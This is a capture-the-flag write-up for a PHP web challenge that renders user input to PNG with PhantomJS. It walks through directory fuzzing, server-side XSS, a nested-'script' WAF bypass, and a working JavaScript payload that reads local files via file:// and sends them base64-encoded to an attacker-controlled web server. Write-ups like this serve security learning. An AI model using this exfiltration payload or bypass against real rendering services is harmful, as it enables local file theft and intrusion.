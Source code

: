 **The credits for creating this challenge go to: 0xPwny**

# Light recon:
Looking at the response headers `Server: Apache/2.4.18 (Ubuntu)`,  and the source code (which contains a `mstafa.php`) we will assume that we're dealing with PHP web application.

After doing a some light fuzzing, nothing interesting shows up except `flag.php`:  

```sh
$ ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-small-directories.txt -u https://thnbdarija-xxconverters.chals.io/FUZZ -ac -c -v -e .php
[...Snip...]
[Status: 200, Size: 0, Words: 1, Lines: 1]
| URL | https://thnbdarija-xxconverters.chals.io/flag.php
    * FUZZ: flag.php
```

Browsing to it reveals nothing (so we must read it using LFI/RCE/SSTI/XXE ...)

# Markdown to PNG? : 
The form is rather simple, you submit something and it gets written to an image file which is sent back to us:

![image](https://user-images.githubusercontent.com/92731777/163899463-9e99e247-a015-4c20-90c3-3da55acaa11d.png)
![image](https://user-images.githubusercontent.com/92731777/163899634-50fd0257-da8a-4b51-8e6c-8e1ad257950b.png)

Our request/response combo looks like this:

![image](https://user-images.githubusercontent.com/92731777/163899581-1a914fe1-6b05-4663-b6ab-0e3a6d654d7e.png)

Filenames are random, the only possible attack vector is LFI/Command injection (if for example a router takes our input (filename) and looks for it in another directory besides `pics/`/ concatenates it with a command) but i won't go through it for now and i'll assume that the files are processed THEN written inside `pics/` directory.

This kind of converters have been generally vulnerable to the so called "server side" XSS (e.g dynamic pdf generators) where you can basically inject some html/js code that fetches local files, do SSRF etc...

Let's test that out:

![image](https://user-images.githubusercontent.com/92731777/163900258-ac67689b-113f-4c09-aeb5-06550de40919.png)


It wasn't reflected as text this time but as html instead, we got a potential XSS. Let's see if we can run Javascript code:

![image](https://user-images.githubusercontent.com/92731777/163900525-70325620-ab2f-4e62-ab97-f59d0396f4dd.png)


Yes we can, did you noticed that "script" has been stripped out? [spoiler: there's a WAF in action ;) ]

Running Javascript code like this is cumbersome (e.g you have to escape quotes every now and then when writing complex code). So, let's see if we can include remote script:

![image](https://user-images.githubusercontent.com/92731777/163900570-a6771503-178b-48da-b7f0-5459cd3cfcaa.png)

As mentioned, "script" has been stripped by the server, a common bypass for this is nesting one inside another like `scrscriptipt`, which results in the "outer" script to be concatenated.

Aaaaand we got a request: 

![image](https://user-images.githubusercontent.com/92731777/163901661-90286b32-c248-414f-84be-77bf76ef3e57.png)

# Time to stop joking about XSS:
Looking at the `User-Agent` header we can see `PhantomJS/2.1.1` which is a headless browser, after googling for any known vulnerability/PoC we will come across this one: https://buer.haus/2017/06/29/escalating-xss-in-phantomjs-image-rendering-to-ssrflocal-file-read/


TLDR; we make the server load our remote script, which reads local files using `file://` scheme, and sends the base64 encoded file back to us.
	
`innocent.js` content:
```js
function reqListener () {
    var encoded = encodeURI(this.responseText);
    var b64 = btoa(this.responseText);
    var raw = this.responseText;
    document.write('<iframe src="http://<your_webserver>/exfil?data='+b64+'"></iframe>');
} 
var oReq = new XMLHttpRequest(); 
oReq.addEventListener("load", reqListener); 
oReq.open("GET", "file:///etc/hosts"); // file to read
oReq.send();
```

Sping up your webserver to host the file and make the target server include it.

![image](https://user-images.githubusercontent.com/92731777/163900753-305c7a72-d703-4903-81e4-ad9d11ff1fc8.png)

aaand we got a hit with the file being sent back to us:

![image](https://user-images.githubusercontent.com/92731777/163901852-c38fb581-ca2b-476f-a594-7837ba2949ee.png)

`/etc/hosts` file content: 

![image](https://user-images.githubusercontent.com/92731777/163900719-5ed911a2-7932-42a3-ab44-547b054fec59.png)

Local file read confirmed.
Remember that `/flag.php` file? by default apache hosts files under `/var/www/html/`, let's check if it's there

Same drill, edit the file to read and resend the XSS payload, after getting a hit on your local webserver base64 decode the exfil parameter's content:

![image](https://user-images.githubusercontent.com/92731777/163901826-ae56c7a7-0f96-4650-8bbc-40252d86e1cb.png)

Flag: `thnb{3aaaaw3d_D3rd4k_aAasi_xsser}`



